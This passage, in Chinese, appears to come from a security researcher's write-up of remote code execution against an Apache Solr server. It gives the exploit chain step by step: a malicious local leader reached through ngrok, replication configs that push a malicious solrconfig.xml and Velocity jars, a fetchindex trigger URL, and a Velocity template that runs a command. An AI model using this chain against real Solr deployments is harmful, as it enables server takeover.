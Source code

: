 我重新编译了 .jar 库并准备漏洞利用。以下是实现目标服务器 RCE（远程代码执行）的步骤回顾：  
1. 创建一个恶意的本地 Solr 服务器，作为目标服务器的 follower（从节点）  
  
1. 从目标 Solr 服务器复制数据集，以确保原始数据不会丢失  
  
1. 将本地服务器配置为 leader（主节点），分发恶意的 "solrconfig.xml" 文件和修改后的 Velocity .jar 库以及数据集  
  
1. 触发从本地服务器到目标服务器的复制  
  
1. 访问目标服务器中修改后的 "browse" 模板，该模板将执行 "id" 命令  
  
由于我的本地 Solr 实例 "hacefresk0" 已经包含了目标服务器的数据集，我将其复制请求处理器配置为 leader，为目标服务器提供恶意的 "solrconfig.xml" 文件和修改后的 Velocity .jar 库：  
```
<requestHandler name="/replication" class="solr.ReplicationHandler">
    <lst name="leader">
        <str name="replicateAfter">optimize</str>
        <str name="backupAfter">optimize</str>
        <str name="confFiles">malicious-solrconfig.xml:solrconfig.xml,solritas-0.9.5.jar,velocity-engine-core-2.1.jar,velocity-tools-generic-3.0.jar</str>
    </lst>
</requestHandler>
```  
  
恶意的"solrconfig.xml"文件包含了一个"<lib>  
"元素用于导入.jar 库，一个"<queryResponseWriter>  
"元素用于启用 Velocity，以及一个配置为当前目标 leader 的 follower（从节点）的复制请求处理器，这样我就不会严重破坏他们的复制基础设施：  
```
<lib dir="conf/" regex=".*\.jar"/>

<queryResponseWriter name="velocity" class="solr.VelocityResponseWriter">
    <str name="template.base.dir"></str>
</queryResponseWriter>

<requestHandler name="/replication" class="solr.ReplicationHandler">
    <lst name="slave">
        <str name="leaderUrl">https://leader.target.com:443/solr/de/</str>
        <str name="pollInterval">00:00:20</str>
    </lst>
</requestHandler>
```  
  
现在，我通过访问以下 URL 触发了目标服务器的复制：  
```
https://target.com/solr/de/replication?command=fetchindex&leaderUrl=https://<ngrok_url>/solr/hacefresk0/
```  
  
当我在 ngrok 界面中看到相应的连接，表明复制成功后，我访问了目标服务器中的恶意"browse"模板："<https://target.com/solr/de/select?q=*&wt=velocity&v.template=browse>  
"。命令"id"已在服务器上成功执行 :D  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCOdoKSTvEall0dicgCTr41IB8TOibGQn2KXxv2gJdeVUZ4PhWaVhOgCKRK4RvAopRkzmEJpVvwYkKcQ/640?wx_fmt=png&from=appmsg "")  
## 报告与结论  
  